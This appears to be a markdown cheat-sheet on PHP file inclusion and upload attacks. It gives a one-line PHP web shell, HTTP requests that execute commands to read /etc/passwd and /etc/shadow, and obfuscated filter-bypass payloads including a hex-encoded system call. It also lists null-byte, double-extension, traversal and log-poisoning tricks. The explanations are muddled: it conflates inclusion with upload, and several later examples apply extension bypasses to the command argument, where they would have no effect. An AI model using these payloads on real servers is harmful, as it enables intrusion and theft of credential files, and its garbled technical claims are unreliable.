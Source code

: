 # File Inclusion

If a web application allows an attacker to include a file, the attacker can execute arbitrary code on the server. This is known as file inclusion. Let's take a look at a simple example of file inclusion with PHP in a web application.

```php
<?php
   system($_GET['cmd']);
?>
```

After uploading this script to the server, you can try to include the file with the following request using Burp Suite or `curl` to test the file inclusion vulnerability. The request might be modified like this:

```php
GET /upload.php?cmd=cat /etc/passwd
Host: example.com
```

If this works, Remote Code Execution (RCE) is possible.

## File Extension Checks

If the application is filtering the file extension, you can bypass it by using a null byte `%00` or double extensions like `file.php.jpg`, `.phP`, or `php3`.

## Payload Examples

After uploading the file, you can try the following payloads to exploit file inclusion vulnerabilities for different characters of the file path, especially if validation is not done properly. This could lead to RCE as well.

```shell
cat /etc/shadow
cat "/e"tc'/shadow'
cat /etc/sh*dow
cat /etc/sha$()dow
cat /etc/sha${}dow
```

You can also try to use HEX encoding to bypass the filters.

```shell
'\x73\x79\x73\x74\x65\x6d'('ls');
```

## Additional Techniques

### Using Null Byte Injection

Null byte injection can be used to truncate the file extension, allowing the execution of PHP code.

```shell
GET /upload.php?cmd=cat /etc/passwd%00
Host: example.com
```

### Using Double Extensions

Double extensions can trick the application into treating the file as a different type.

```shell
GET /upload.php?cmd=cat /etc/passwd.php.jpg
Host: example.com
```

### Using Alternative PHP Extensions

Some servers may support alternative PHP extensions like `.phar`, `.phtml`, or `.php3`.

```shell
GET /upload.php?cmd=cat /etc/passwd.php3
Host: example.com
```

### Using Directory Traversal

Directory traversal can be used to access files outside the intended directory.

```shell
GET /upload.php?cmd=cat ../../../../etc/passwd
Host: example.com
```

### Using Log Poisoning

Log poisoning involves injecting malicious code into log files that are later included by the application.

```shell
GET /upload.php?cmd=cat /var/log/apache2/access.log
Host: example.com
```
